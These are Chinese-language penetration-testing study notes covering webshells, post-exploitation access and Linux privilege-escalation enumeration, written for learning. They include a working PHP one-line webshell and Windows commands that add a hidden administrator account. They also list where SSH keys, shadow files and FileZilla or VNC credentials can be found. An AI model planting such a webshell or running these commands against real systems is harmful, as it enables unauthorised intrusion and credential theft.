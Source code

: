 - WebShell
  - “Webshel​​l”是一个通俗术语，指在网络服务器（通常采用PHP或 ASP 等语言）内部运行的脚本，该脚本在服务器上执行代码。本质上，命令是通过 HTML 表单或直接作为 URL 中的参数输入到网页中的，然后由脚本执行，返回结果并写入页面。
  - [上传文件漏洞]()
  - php一句话脚本
    - `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
      - `shell_exec()` 通过shell执行命令，并将输出结果回显
      - `$_GET` 获得 url 中参数的值
- Next step
  - 通过之前的步骤，即使是生成了 稳定Shell 也不是最理想的，它们永远不会像本机shell那样功能齐全。
    - 理想情况下，在Linux系统中，在 `/home/<user>/.ssh` 存储的SSH密钥能帮助实现SSH登录；脏牛漏洞或者可写的`/etc/shadow` `/etc/passwd` 文件也是方式之一。
    - 理想情况下，在windows系统中，有时在注册表中找到正在运行的服务的密码，例如VNC服务器经常将密码以明文形式存储在注册表中；某些版本的FileZilla FTP服务器会将凭据保留在`C:\Program Files\FileZilla Server\FileZilla Server.xml`或`C:\xampp\FileZilla Server\FileZilla Server.xml`的XML文件中。
    - 理想情况下，在windows系统中，您将以SYSTEM用户身份运行Shell，这时只需将自己的账户添加到计算机，然后通过RDP、telnet、winexe等方式登录。语法如下：
      - `net user <username> <password> /add`
      - `net localgroup administrators <username> /add`
- 实践

### Linux Privilege Escalation
- 介绍
  - 从本质上讲，权限升级通常涉及从权限较低的帐户到权限较高的帐户。
  - 从技术上讲，它是利用操作系统或应用程序中的漏洞、设计缺陷或配置监督来获得对通常限制用户访问的资源的未经授权的访问。
- 枚举
  - hostname
    - 返回目标的主机名。通常无意义。
    - 但在某些情况下，它可以提供有关目标系统在企业网络中的角色的信息（例如用于生产 SQL 服务器的 SQL-PROD-01 ）
  - uname -a
    - 打印系统信息。提供有关系统使用的内核的更多详细信息
    - 导致权限升级的潜在内核漏洞时非常有用
  - /proc/version
    - 查看 /proc/version 会提供有关内核版本的信息以及其他数据，例如是否安装了编译器（例如 GCC）
  - /etc/issue 
    - 该文件通常包含一些有关操作系统的信息
  - ps
    - 查看进程。
    - `ps -A` 查看所有正在运行的进程
    - `ps axjf` 进程树 
    - `ps aux` 
      - a 显示所有用户的进程
      - u 显示启动进程的用户
      - x 显示未连接到终端的进程
  - env
    - 环境变量。
      - PATH 变量可能具有编译器或脚本语言，可用于提升权限
  - sudo -l
    - 列出用户可以使用 sudo 运行的所有命令
  - ls
  - id
  - /etc/passwd
    - 引申 /etc/passwd 格式类型
      